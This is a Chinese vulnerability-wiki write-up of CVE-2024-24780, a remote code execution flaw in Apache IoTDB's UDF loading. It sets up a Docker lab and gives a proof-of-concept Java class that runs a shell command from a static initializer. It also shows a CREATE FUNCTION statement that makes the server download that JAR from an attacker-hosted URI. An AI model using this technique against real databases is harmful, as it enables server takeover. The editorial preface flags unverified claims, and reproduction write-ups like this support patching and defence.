




# Apache IoTDB UDF 远程代码执行漏洞 CVE-2024-24780

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：1.0.0–<1.3.4、CREATE UDF权限、可下载JAR并加载；实验用root/root不代表匿名
- 证据范围：静态初始化执行在接口类型校验之前的效果需说明，Java类没有实现UDF接口仍声称注册触发；关键结果截图未视检

### 本次正文校订

- 按实际内容修正 3 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- version错抽docker-compose up -d，ext/udf反引号/括号错位
- 应归数据库/IoTDB；与JEXL46226不同入口不可合并成一CVE
- 分发各节点执行应注明实验单节点不能直接证明全节点效果
- 数据库root账号不是OS root权限

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

Apache IoTDB（物联网数据库）是支持收集、存储、管理与分析物联网时序数据的软件系统。CVE-2024-24780 中，攻击者在具有创建 UDF 的权限下可构造恶意请求造成远程代码执行，控制服务器。

IoTDB 支持两种方式加载 UDF（用户自定义函数）：

- 手动部署：将包含 UDF 的 JAR 包放置于每个节点的指定目录（如 `ext/udf）`。
- URI 自动加载：在注册 UDF 时指定远程 URI，IoTDB 会自动从该地址下载 JAR 包并分发到集群中的各个节点。

攻击者可以通过 URI 自动加载的方式，指定一个恶意远程 URI。IoTDB 将从恶意远程 URI 加载包含恶意代码的 JAR 包，并分发到集群中的各个节点执行。

参考链接：

- https://iotdb.apache.org/
- http://www.openwall.com/lists/oss-security/2025/05/14/2
- https://lists.apache.org/thread/xphtm98v3zsk9vlpfh481m1ry2ctxvmj

## 漏洞影响

```
1.0.0 <= Apache IoTDB < 1.3.4
```

## 环境搭建

### 启动 IoTDB

docker-compose.yml

```
services:
  iotdb:
    image: apache/iotdb:1.2.0-standalone
    container_name: iotdb
    ports:
      - "6667:6667"
      - "31999:31999"
      - "8181:8181"
```

执行如下命令启动一个 Apache IoTDB 1.2.0 版本的服务器：

```shell
docker-compose up -d
```

查看启动情况：

```shell
docker ps
```




### 安装 Cli 命令行

下载 [apache-iotdb-1.2.0-cli-bin.zip](https://archive.apache.org/dist/iotdb/1.2.0/)：

```shell
wget https://archive.apache.org/dist/iotdb/1.2.0/apache-iotdb-1.2.0-cli-bin.zip
unzip apache-iotdb-1.2.0-cli-bin.zip
```

启动 Cli，命令行客户端是交互式的，如果一切就绪，我们可以看到欢迎标志和声明:

```
cd apache-iotdb-1.2.0-cli-bin/
sbin/start-cli.sh -h your-ip -p 6667 -u root -pw root
```




## 漏洞复现

编写类 `org.example.EvilClass`，将其编译为 `poc.jar`，将编译好的 jar 文件上传到 vps 进行托管。此处我们的恶意类中执行的命令是 `touch /tmp/awesome_poc`：

```java
package org.example;

public class EvilClass {
    static {
        try {
            Runtime.getRuntime().exec("touch /tmp/awesome_poc");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

通过 URI 自动加载，在 IoTDB 中注册恶意 UDF：

```
CREATE FUNCTION evilFunc AS 'org.example.EvilClass' USING URI 'http://<your-vps-ip>/poc.jar';
```




IoTDB 会从我们的 vps 下载 `poc.jar`，加载恶意类并执行命令 。可以看到，`touch /tmp/awesome_poc` 已经执行成功：




## 漏洞修复

升级至 1.3.4 及以上版本。


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
